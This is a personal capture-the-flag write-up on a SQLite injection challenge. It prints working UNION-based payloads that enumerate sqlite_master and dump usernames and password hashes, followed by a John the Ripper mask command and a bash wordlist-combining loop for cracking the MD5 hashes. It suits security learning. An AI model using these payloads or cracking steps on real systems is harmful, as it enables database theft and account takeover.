### This is a very cool challenge, I didn't solve it (nearly), but, nah, just write down to remember stuff
This is a SQLite injection, how do I know it was SQLite, well fuzzing and sqlmap

So the syntax of the payload is the same but the way to extract is different:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

With this I get the table name is users:
%22 UNION SELECT tbl_name,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

And with this I get the column name:
%22 UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users' -- -
```
CREATE TABLE users (
	username text primary key not null,
	password_hash text not null,
	hint text not null,
	bio text not null)
  ```
  From this just normal payload:
  %22 UNION SELECT username,password_hash FROM users -- -
  So what I encounter is a bunch of md5 hash with rules
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
 With that it mean we have to crack it with its rule
 - The easiest was the noob password, just google it and login 
 - Then come to the phone number, using john the ripper with mask for rule:
 	john --format=raw-md5 flag2.txt --mask=?d?d?d-?d?d?d-?d?d?d?d --fork=12
 - Next it would be Greek God + My least favorite US, so what I did was listing out some of the most popular Greek Gods and concat it with script, and just bruteforce it (faster)
 ```
 while read line; do
	while read liness; do
		echo $line$liness | tr -d ' ' 
	done < "/home/phulelouch/Desktop/US.txt"
done < "/home/phulelouch/Desktop/god.txt"
 ```
